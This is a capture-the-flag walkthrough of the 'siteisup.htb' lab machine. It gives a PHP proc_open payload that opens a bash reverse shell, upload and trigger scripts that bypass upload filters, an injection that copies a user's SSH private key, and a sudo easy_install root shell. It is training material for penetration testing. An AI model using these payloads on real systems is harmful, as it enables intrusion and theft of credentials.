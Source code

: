 Initial Nmap Scan

```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Accessing siteisup.htb @ port 80

Exploring Local Git dir

```bash
Git branch -a
Git log main
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

git show 8812785e31c879261050e72e20f298ae8c43b565
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

diff --git a/.htaccess b/.htaccess
index 44ff240..b317ab5 100644
--- a/.htaccess
+++ b/.htaccess
@@ -2,3 +2,4 @@ SetEnvIfNoCase Special-Dev "only4dev" Required-Header
 Order Deny,Allow
 Deny from All
 Allow from env=Required-Header

```

Found another domain dev.siteisup.htb source code and another juicey information to access the domain 
It only access for developers Using coustom header "Special-Dev: only4dev"

Accessing dev.siteisup.htb

**FootHold**

Exploiting upload vulnerability and gain the shell but there has some fillters using to prevent to upload malicious file. we have only one way to upload a php file to gain code execution which is uploading a injected php code as phar file. Their is an another problem to gain shell the normal php shell command functions are disabled expect "proc_open" we get that info from "phpinfo" page 

Exploit using proc_open funtion

Reference [http://www.navioo.com/php/docs/function.proc-open.php](http://www.navioo.com/php/docs/function.proc-open.php)


Payload 

```php
<?php

$descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("file", "/tmp/error-output.txt", "a")
);
$process = proc_open("cat", $descriptorspec, $pipes);
if (is_resource($process)) {

  fwrite($pipes[0], 'echo "bash -i >& /dev/tcp/ip/port 0>&1 " > /tmp/shell.sh | chmod 777 /tmp/shell.sh | sh /tmp/shell.sh');
   /* fwrite writes to stdin, 'cat' will immediately write the data from stdin
   * to stdout and blocks, when the stdout buffer is full. Then it will not
   * continue reading from stdin and php will block here.
   */
  fclose($pipes[0]);
  while (!feof($pipes[1])) {
      $out .= fgets($pipes[1], 1024);
  }
  fclose($pipes[1]);
  $return_value = proc_close($process);
}
?>
```

i wrote two python script to upload and trigger the payload 

upload.py
```python
import requests

header = {"Special-Dev": "only4dev"}
file   = {'file': open('test.phar','rb')}
value  = {"check":"Check"}
r = requests.post("http://dev.siteisup.htb/",headers=header,files=file,data=value)
print("Upload Completed")
```

rce.py
```python
import requests
import re

header = {"Special-Dev": "only4dev"}
r = requests.get("http://dev.siteisup.htb/uploads/",headers=header)
md5 = re.findall(r'(?i)(?<![a-z0-9])[a-f0-9]{32}(?![a-z0-9])',r.text)

file_get = requests.get("http://dev.siteisup.htb/uploads/"+md5[1]+"/test.phar",headers=header)
print(file_get.text)

```

Escalating more privileged user

**www-data to user developer**

Home dir of the user developer has a coustom binary called siteisup which belongs with to a python script called siteisup_script.py and the binary has the setuid permission . Just run the binary and inject python system codes

Paylod for getting the developer ssh Key

```python
__import__("os")os.system("cat /home/developer/.ssh/id_rsa > /tmp/key")
```
**Privilege Escalation**

There is a Binary called  easy_install which has the permission running as superuser(Sudo)

Exploit 

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
Reference [GtfoBin](https://gtfobins.github.io/gtfobins/easy_install/)



